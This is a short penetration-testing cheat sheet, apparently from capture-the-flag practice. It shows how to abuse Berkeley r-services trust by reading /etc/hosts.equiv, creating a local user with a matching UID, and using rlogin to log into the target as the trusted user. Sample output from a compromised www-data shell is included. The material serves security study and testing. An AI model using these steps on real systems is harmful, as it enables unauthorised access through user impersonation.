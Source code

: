 ```yaml
---
title: "R Services"
date: 2025-7-16
tags: ["R Services", "rlogin", "rexec", "rsh", "r-commands", "Shell", "Berkeley", "uid", "gid"]
---
```


### Abuse #1: Fake a User

#### 1. Check

```console
cat /etc/hosts.equiv
```

```console {class="sample-code"}
(remote) www-data@reset:/home/sadm$ cat /etc/hosts.equiv
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#                   command access to your system .
- root
- local
+ sadm
```

#### 2. Create the Target User Locally

```console
# Create a fake user
sudo adduser --uid <UID> <USER>
```

```console
# Switch user
su <USER>
```

#### 3. Connect

```console
# Installation
sudo apt install rsh-redone-client
```

```console
# Connect
rlogin <TARGET>
```

#### 4. Revert

```console
sudo userdel <USER>
```